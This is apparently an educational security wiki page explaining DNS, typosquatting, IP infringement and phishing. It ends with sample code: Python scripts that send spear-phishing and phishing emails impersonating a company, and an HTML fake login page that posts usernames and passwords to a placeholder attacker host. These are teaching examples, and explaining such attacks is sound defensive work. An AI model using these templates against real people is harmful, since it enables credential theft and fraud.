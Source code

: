 ```yaml
---

layout: col-sidebar
title: DNS Attacks_Phishing_TypoSquatting
author: ChennaRao Vemula
contributors: 
External link: https://dev.certping.com/why-ssl
permalink: /attacks/DNS Attacks_Phishing_TypoSquatting.md
tags: DNS, Typosquatting, Phishing

---
```


{% include writers.html %}

## DNS Infrastructure
## What Is DNS
The acronym DNS stands for “Domain Name System”.
To better relate to this you can think of it as an “address book” where you look up a name that is tied to a unique address that you use for communicating with an individual, however this “address book” is for the internet and when you enter a domain name into a browser, it will be translated to the tied unique IP address which it will use to communicate to a machine and serve up content that is hosted on it The process of translating a domain to an IP address is known as a DNS lookup. DNS lookups are performed by dedicated servers called DNS resolvers. Your Wi-Fi router is typically preconfigured to send DNS queries to the resolver owned by your ISP. However, you can choose to configure your router, operating system, or browser to use a different resolver.
## Components of DNS Infrastructure
1.	DNS Servers: These are the backbone of DNS. DNS servers come in various types, such as recursive resolvers and authoritative servers. Recursive resolvers act like your personal investigators, fetching IP addresses on your behalf. Authoritative servers, on the other hand, have the answers. They hold the official records for a specific domain, and they’re the ones you turn to when you need the precise IP address for a particular website.
2.	DNS Resolvers: Think of DNS resolvers as your web browsers’ trusty assistants. When you type in a website address, the resolver is the first to spring into action. It contacts DNS servers to find the IP address for the site you want to visit. This crucial step ensures you reach your desired destination on the web.
The role of DNS records and Zone files:
1.	DNS Records: If DNS is the backbone, DNS records are the words in the backbone’s language. These records store essential information, like IP addresses, mail server data, and aliases. Common record types include A (Address), CNAME (Canonical Name), and MX (Mail Exchange). These records tell DNS servers where to send your requests and emails and how to find websites.
2.	Zone Files: Imagine zone files as the organizers of the DNS library. Each domain has its zone file, which contains records that point to where the data for that domain is stored. These files are managed by domain administrators and provide authoritative DNS servers with the information they need to resolve queries for that domain. Zone files are essential for the smooth operation of DNS.
## Challenges
## Typosquatting
Typosquatting is when someone registers a domain name that is an intentionally misspelled version of another popular website. While many misspelled URLs won’t work or will redirect you, some of these fake websites that look real might be a source of malware, and visiting them could even lead to identity theft. Threat actors create and register domains similar to popular websites but with common typographical errors to exploit unsuspecting users who mistype URLs. The technique is similar to lookalike domains. But unlike lookalike domains in which attackers register domains that look confusingly similar to those of trusted brands typosquatting tries to cash in on users’ clumsiness with their keyboard.
## IP Infringement
Intellectual property (IP) infringement is the unauthorized use of a protected intellectual property right, such as a trademark, patent, copyright, industrial design, plant breeder’s right, or trade secret. Although intellectual-property infringement can be unintentional, it still unacceptable under the eyes of the law. The most common examples of intellectual property disputes include using another person’s words, images, or logo without the property owner’s permission
## Phishing
Phishing is a common type of cyber-attack that targets individuals through email, text messages, phone calls, and other forms of communication. A phishing attack aims to trick the recipient into falling for the attacker’s desired action, such as revealing financial information, system login credentials, or other sensitive information. As a popular form of social engineering, phishing involves psychological manipulation and deception whereby threat actors masquerade as reputable entities to mislead users into performing specific actions. These actions often involve clicking links to fake websites, downloading and installing malicious files, and divulging private information, like bank account numbers or credit card information.

![Phishing](https://github.com/PaV1nShAj1/PaV1nShAj1/blob/3b9c75abb93b91ad9320a5d3c9e6121eebb7a9e6/Screenshot%202025-01-20%20011021.jpg)
## How does phishing works
Phishing works by sending messages that look like they are from a legitimate company or website. Phishing messages will usually contain a link that takes the user to a fake website that looks like the real thing. The user is then asked to enter personal information, such as their credit card number. This information is then used to steal the person’s identity or to make fraudulent charges on their credit card
                             
![working](https://github.com/PaV1nShAj1/PaV1nShAj1/blob/3b9c75abb93b91ad9320a5d3c9e6121eebb7a9e6/phising.jpg)
## Types of Phishing attacks
## Spear phishing
Spear phishing involves targeting a specific individual in an organization to try to steal their login credentials. The attacker often first gathers information about the person before starting the attack, such as their name, position, and contact details.
## Email Phishing
Email phishing is a common technique used by attackers to trick individuals into providing sensitive information by pretending to be a trustworthy entity.
## Website Phishing
Website phishing is a method used by attackers to create fake websites that mimic legitimate ones to trick users into divulging sensitive information, such as login credentials or financial details.


# Example of TypoSquatting
```python
domain = "legit-website.com"
phishing_domain = domain.replace("i", "l")  # Replacing 'i' with 'l'
print(phishing_domain)  # Outputs: "leglt-website.com"```





# Example of Spear Phishing Email Code
```python
import smtplib
from email.mime.text import MIMEText

def send_spear_phishing_email(target_name, target_email):
    sender = "fake@legitcompany.com"
    subject = f"Important Update for {target_name}"
    body = f"Dear {target_name},\n\nPlease click the link to update your account information: http://fake-website.com"

    msg = MIMEText(body)
    msg['Subject'] = subject
    msg['From'] = sender
    msg['To'] = target_email

    with smtplib.SMTP('smtp.example.com') as server:
        server.login("username", "password")
        server.sendmail(sender, target_email, msg.as_string())```

# Example of Phishing Email Code
```python
import smtplib
from email.mime.text import MIMEText

def send_phishing_email():
    sender = "fake@legitcompany.com"
    recipient = "victim@example.com"
    subject = "Important Update"
    body = "Please click the link to update your account information: http://fake-website.com"

    msg = MIMEText(body)
    msg['Subject'] = subject
    msg['From'] = sender
    msg['To'] = recipient

    with smtplib.SMTP('smtp.example.com') as server:
        server.login("username", "password")
        server.sendmail(sender, recipient, msg.as_string())

# Example of Website Phishing
```html
<!-- Example of a fake login page -->
<html>
<head>
    <title>Fake Login Page</title>
</head>
<body>
    <h1>Login</h1>
    <form action="http://fake-website.com/submit" method="post">
        <label for="username">Username:</label>
        <input type="text" id="username" name="username"><br>
        <label for="password">Password:</label>
        <input type="password" id="password" name="password"><br>
        <input type="submit" value="Login">
    </form>
</body>
</html>```
 

